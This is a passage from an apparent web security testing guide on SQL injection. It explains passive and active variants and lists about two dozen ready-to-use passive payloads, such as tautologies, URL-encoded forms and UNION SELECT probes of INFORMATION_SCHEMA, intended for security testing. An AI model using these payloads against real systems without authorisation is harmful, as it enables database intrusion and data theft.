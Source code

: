 This attack can affect the database layer of an application and is typically present when user input is not filtered for SQL statements.

For details on Testing SQL Injection: [Testing for SQL Injection](../4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.md)

SQL Injection is classified in the following two categories, depending on the exposure of database information (passive) or the alteration of database information (active).

- [Passive SQL Injection](#Passive-SQL-Injection-(SQP))
- [Active SQL Injection](#Active-SQL-Injection-(SQI))

Active SQL Injection statements can have a detrimental effect on the underlying database if successfully executed.

### Passive SQL Injection (SQP)

`'||(elt(-3+5,bin(15),ord(10),hex(char(45))))`

`||6`

`'||'6`

`(||6)`

`' OR 1=1--`

`OR 1=1`

`' OR '1'='1`

`; OR '1'='1'`

`%22+or+isnull%281%2F0%29+%2F*`

`%27+OR+%277659%27%3D%277659`

`%22+or+isnull%281%2F0%29+%2F*`

`%27+--+`

`' or 1=1--`

`" or 1=1--`

`' or 1=1 /*`

`or 1=1--`

`' or 'a'='a`

`" or "a"="a`

`') or ('a'='a`

`Admin' OR '`

`'%20SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES--`

`) UNION SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES;`

`' having 1=1--`
